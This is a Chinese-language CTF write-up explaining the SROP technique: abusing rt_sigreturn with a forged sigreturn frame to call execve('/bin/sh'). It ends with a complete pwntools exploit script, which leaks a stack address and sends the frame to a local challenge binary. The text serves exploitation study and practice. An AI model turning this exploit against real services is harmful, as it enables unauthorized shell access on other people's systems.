 # SROP

srop 实质是一个系统调用，这个系统调用是从栈上取值，恢复寄存器状态的一个系统调用，其系统调用号为 0xf ，rt_sigreturn 

原理图：

![image-20230805101648629](./images/image-20230805101648629.png)

如果是这样，那么我们是不是能够控制 rax = 0x3b ，rdi -> binsh ，rsi -> rdx -> 0 ，rip -> syscall ，就可以执行 execev('/bin/sh', 0, 0) 系统调用了。

为了达到这样的攻击目标，我们首先要先能控制 rax = 0xf ，并且能够执行 syscall 指令，这样才能调用 rt_sigreturn 

![image-20230805101937018](./images/image-20230805101937018.png)

题目里面，可以发现 pop rax; syscall ; 这样的指令，就可以控制 rax ，并且执行 syscall 指令了。

接下来，就是 binsh ，那么要如何找到呢 ？ 

通过第二个 write 泄露内存信息漏洞，我们可以泄露出栈地址，而栈空间是我们能够写入数据的，那么我们便可以写入 /bin/sh ,最后通过 调试 + 计算得出 /bin/sh 的地址

```py
debug('b *0x4011ee')

sa(b'hacker!\n', b'/bin/sh\x00'*2 + p64(elf.sym['vuln']))
stack = l64()
binsh = stack - 0x28



lg('stack', stack)
```

但我们能够得到 /bin/sh 地址之后，就是我们的 srop 漏洞利用了

exp

```py
from pwn import *
from struct import pack
from ctypes import *
import base64
#from LibcSearcher import *

def debug(c = 0):
    if(c):
        gdb.attach(p, c)
    else:
        gdb.attach(p)
        pause()
def get_sb() : return libc_base + libc.sym['system'], libc_base + next(libc.search(b'/bin/sh\x00'))
#-----------------------------------------------------------------------------------------
s = lambda data : p.send(data)
sa  = lambda text,data  :p.sendafter(text, data)
sl  = lambda data   :p.sendline(data)
sla = lambda text,data  :p.sendlineafter(text, data)
r   = lambda num=4096   :p.recv(num)
rl  = lambda text   :p.recvuntil(text)
pr = lambda num=4096 :print(p.recv(num))
inter   = lambda        :p.interactive()
l32 = lambda    :u32(p.recvuntil(b'\xf7')[-4:].ljust(4,b'\x00'))
l64 = lambda    :u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
uu32    = lambda    :u32(p.recv(4).ljust(4,b'\x00'))
uu64    = lambda    :u64(p.recv(6).ljust(8,b'\x00'))
int16   = lambda data   :int(data,16)
lg= lambda s, num   :p.success('%s -> 0x%x' % (s, num))
#-----------------------------------------------------------------------------------------

context(os='linux', arch='amd64', log_level='debug')
p = process('./srop')
elf = ELF('./srop')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

rax_syscall = 0x4011ed
syscall = 0x4011da

#debug('b *0x4011ee')

sa(b'hacker!\n', b'/bin/sh\x00'*2 + p64(elf.sym['vuln']))
stack = l64()
binsh = stack - 0x28

# pwntools 
sigframe = SigreturnFrame()
sigframe.rax = 0x3b
sigframe.rdi = binsh
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rip = syscall

sleep(1)
s(b'a'*0x10 + p64(rax_syscall) + p64(0xf) + flat(sigframe))

lg('stack', stack)
#pause()

inter()

```

